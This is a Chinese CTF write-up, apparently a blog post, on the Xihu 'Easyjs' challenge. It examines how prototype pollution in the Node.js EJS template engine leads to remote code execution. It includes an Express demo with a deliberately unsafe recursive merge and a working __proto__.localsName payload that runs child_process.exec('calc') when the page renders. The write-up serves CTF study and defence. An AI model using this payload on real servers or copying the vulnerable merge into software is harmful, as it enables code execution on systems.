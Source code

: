 
从西湖 Easyjs 讨论 nodejs 引擎 RCE

- - -

# 从西湖 Easyjs 讨论 nodejs 引擎 RCE

西湖初赛 Easyjs 的题目这次将常规的两种 outputFunctionName 和 escapeFunction 都 ban 掉了，之前也没有很关注这一个点，比赛的时候想在网上找到别的字段进行污染的绕过方式，但是资料不是很多，也没有找到，于是索性自己又回炉重造，调试了一下，顺便把其他两种原型链污染的点补充上。

## Ejs 模板调试分析

EJS 模板引擎是通过 render 函数调用 ejs.js 来进行模板渲染，所以我们将断点打在 render 处，先来看一下整个的一个污染调用链是如何调用的：

index.js

```bash
var express = require('express');
var ejs = require('ejs');

var app = express();
//设置模板的位置与种类
app.set('views', __dirname);
app.set('views engine','ejs');
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
//对原型进行污染
var malicious_payload = '{' +
    '"__proto__":{'+
    '"localsName":"a=process.mainModule.require(\'child_process\').exec(\'calc\');/*"' +
    '   }' +
    '}';
merge({}, JSON.parse(malicious_payload));

//进行渲染
app.get('/', function (req, res) {
    res.render ("index.ejs",{
        message: 'Ic4_F1ame'
    });
});

//设置 http
var server = app.listen(8000, function () {

    var host = server.address().address
    var port = server.address().port

    console.log("应用实例，访问地址为 http://%s:%s", host, port)
});
```
